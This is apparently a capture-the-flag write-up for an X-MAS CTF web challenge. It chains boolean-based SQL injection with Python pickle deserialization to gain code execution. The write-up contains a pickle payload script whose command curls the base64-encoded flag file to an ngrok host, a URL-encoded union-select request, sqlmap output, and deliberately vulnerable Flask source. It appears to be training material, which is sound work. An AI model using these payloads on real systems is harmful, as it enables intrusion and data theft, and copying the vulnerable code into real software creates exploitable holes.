









---
Category:
  - Web
Difficulty: Medium
Platform: X-MAS
Status: 3. Complete
tags:
  - sqlite
  - SQL-Injection
  - pickle
---
>[!quote]
>*The Elf Resources department needs to keep an eye on what the elves are doing. This site was done in a hurry and they would appreciate if you would take a look.*

# Setup

Connect to the challenge: `challs.htsp.ro:13001`

# Information Gathering

## The application at-a-glance 🔍

Application home page:


Selected the first elf:


Request:

```http
GET /1 HTTP/1.1
Host: challs.htsp.ro:13001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://challs.htsp.ro:13001/
Upgrade-Insecure-Requests: 1
```


The other elves have just different names and images.

# Exploitation

## Boolean based SQL-Injection 

>[!bug]
>The elf's id is vulnerable to boolen-based SQL Injections and can be exploited to enumerate the database

Math is evaluated and executed inside the elf's id:



Moreover boolean-based query can be submitted to confirm the SQL Injection:




Verified the SQL Injection also with sqlmap:

```bash
$ sqlmap http://challs.htsp.ro:13001/2 --current-db --proxy http://127.0.0.1:8080 --all --batch
...
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 82 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://challs.htsp.ro:13001/2 AND 6613=6613
---
...
```



Enumerated the entire db:

>[!warning]
>Sometimes sqlmap is unable to extract serialized data and just return a void column. Use the `--no-cast` o `--hex` flags for those cases.

```bash
$ sqlmap http://challs.htsp.ro:13001/2 --current-db --proxy http://127.0.0.1:8080 --all --batch
...
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 82 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://challs.htsp.ro:13001/2 AND 6613=6613
---
...
Database: <current>
Table: elves
[3 entries]
+----+------------------------------------------------------------------------------------------------------------------------------------------+
| id | data                                                                                                                                     |
+----+------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | gASVUAAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwJU25vd2ZsYWtllIwIYWN0aXZpdHmUjA1QYWNraW5nIGdpZnRzlIwCaWSUTnViLg==             |
| 2  | gASVSwAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwEQmVsbJSMCGFjdGl2aXR5lIwNSGVscGluZyBTYW50YZSMAmlklE51Yi4=                     |
| 3  | gASVWgAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwFU25vd3mUjAhhY3Rpdml0eZSMG0xvb2tpbmcgYXQgdGhlIG5hdWdodHkgbGlzdJSMAmlklE51Yi4= |
+----+------------------------------------------------------------------------------------------------------------------------------------------+
...
```

## SQL Injection + Arbitrary Deserialization

Discovered some python objects inside the DB:

```bash
┌──(kali㉿kali)-[~/CTFs/X-MAS/manipulated]
└─$ echo 'gASVUAAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwJU25vd2ZsYWtllIwIYWN0aXZpdHmUjA1QYWNraW5nIGdpZnRzlIwCaWSUTnViLg==' | base64 -d
Packing giftsidNub.                                                                                                                                                                                                                         
┌──(kali㉿kali)-[~/CTFs/X-MAS/manipulated]
└─$ echo 'gASVWgAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwFU25vd3mUjAhhY3Rpdml0eZSMG0xvb2tpbmcgYXQgdGhlIG5hdWdodHkgbGlzdJSMAmlklE51Yi4=' | base64 -d
__main__Elf)}(nameSnowactivityooking at the naughty listidNub.                                                                                                                                                                              
┌──(kali㉿kali)-[~/CTFs/X-MAS/manipulated]
└─$ echo 'gASVSwAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwEQmVsbJSMCGFjdGl2aXR5lIwNSGVscGluZyBTYW50YZSMAmlklE51Yi4=' | base64 -d
Helping SantaidNub. 

```

Created a script to craft custom serialized python objects that once unserialized execute arbitrary code:

```python
import pickle
import base64
import os

# Credits to m3ssap0

class Elf:
    def __init__(self, name, activity, id):
        self.name = name
        self.activity = activity
        self.id = id
    
    def __reduce__(self):
        command = "curl https://229b-93-51-54-187.eu.ngrok.io/`cat flag.txt|base64`"
        return os.system, (command, )

def generate_exploit():
    serialized_exploit = base64.b64encode(pickle.dumps(Elf("0xbro", "pwning", 0))).decode("ascii")
    print("Serialized exploit object: %s" % serialized_exploit)
    return serialized_exploit

if __name__ == '__main__':
    exploit_object = generate_exploit()
```

```bash
$ python3 script.py 
Serialized exploit object: gASVWwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjEBjdXJsIGh0dHBzOi8vMjI5Yi05My01MS01NC0xODcuZXUubmdyb2suaW8vYGNhdCBmbGFnLnR4dHxiYXNlNjRglIWUUpQu
```

Exploited the SQL Injection vulnerability to inject the serialized object and exfiltrate the flag:

>[!question]
>What is the SQL query that the server creates to manage this requests?
>
>Assumptions: 
>- `select "/some/path/"||id from elves where id = <param>`
>- `select data from elves where id= <param>`

>[!Success] Confirm
>Random junk appended:
>
>Legit object appended:
>

## Exfiltrated the flag

Exploited the SQL Injection to send a request containing the serialized object (the full payload has been urlencoded in order to avoid issues related to special character inside the request):



```http
GET /0%20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%27%67%41%53%56%57%77%41%41%41%41%41%41%41%41%43%4d%42%58%42%76%63%32%6c%34%6c%49%77%47%63%33%6c%7a%64%47%56%74%6c%4a%4f%55%6a%45%42%6a%64%58%4a%73%49%47%68%30%64%48%42%7a%4f%69%38%76%4d%6a%49%35%59%69%30%35%4d%79%30%31%4d%53%30%31%4e%43%30%78%4f%44%63%75%5a%58%55%75%62%6d%64%79%62%32%73%75%61%57%38%76%59%47%4e%68%64%43%42%6d%62%47%46%6e%4c%6e%52%34%64%48%78%69%59%58%4e%6c%4e%6a%52%67%6c%49%57%55%55%70%51%75%27 HTTP/1.1
Host: challs.htsp.ro:13001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Connection: close
```

> url-decode request: 
> `0 union select 'gASVWwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjEBjdXJsIGh0dHBzOi8vMjI5Yi05My01MS01NC0xODcuZXUubmdyb2suaW8vYGNhdCBmbGFnLnR4dHxiYXNlNjRglIWUUpQu'`

```bash
$ ngrok http 10099
...
GET /WC1NQVN7M0xmX0h1TTRuX1IzNTB1ckMzNV93MWxMXzgzX0Mwbjc0QzcxTjlfWTB1XzUwMG59 502 Bad Gateway
...
$ echo WC1NQVN7M0xmX0h1TTRuX1IzNTB1ckMzNV93MWxMXzgzX0Mwbjc0QzcxTjlfWTB1XzUwMG59 | base64 -d                                                            
X-MAS{3Lf_HuM4n_R350urC35_w1lL_83_C0n74C71N9_Y0u_500n}
```

# Flag

>[!success]
> `X-MAS{3Lf_HuM4n_R350urC35_w1lL_83_C0n74C71N9_Y0u_500n}`

# Video Writeup

<iframe width="660" height="415" src="https://www.youtube.com/embed/E7bl0taVWNM" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

# Extra miles
## Vulnerable source code
```python
import base64
import dataclasses
import os
import pickle
import sqlite3
from typing import Optional

from flask import Flask, render_template


@dataclasses.dataclass
class Elf:
	name: str
	activity: str
	id: Optional[int] = dataclasses.field(default=None)


app = Flask(__name__)

db = sqlite3.connect('file::memory:?cache=shared', check_same_thread=False)


@app.route("/")
def index() - str:
	cursor = db.execute("select id, data from elves")
	elves = []
	for record in cursor:
		elf = pickle.loads(base64.b64decode(record[1]))
		elf.id = record[0]
		elves.append(elf)
	return render_template("index.html", elves=elves)


@app.route("/<elf_id>")
def elf_data(elf_id: int) - str:
	cursor = db.execute(f"select data from elves where id = {elf_id}")
	data = cursor.fetchone()[0]
	elf = pickle.loads(base64.b64decode(data))
	return render_template('elf.html', elf=elf)


def main():
	db.execute("""
		create table elves(
			id integer primary key autoincrement not null,
			data text
		);
	""")
	for elf in [
		Elf(name="Snowflake", activity="Packing gifts"),
		Elf(name="Bell", activity="Helping Santa"),
		Elf(name="Snowy", activity="Looking at the naughty list")
	]:
		data = base64.b64encode(pickle.dumps(elf))
		db.execute(f"""
			insert into elves(data) values(?);
		""", (data,))
	app.run('0.0.0.0', 2000)


if __name__ == "__main__":
	main()

```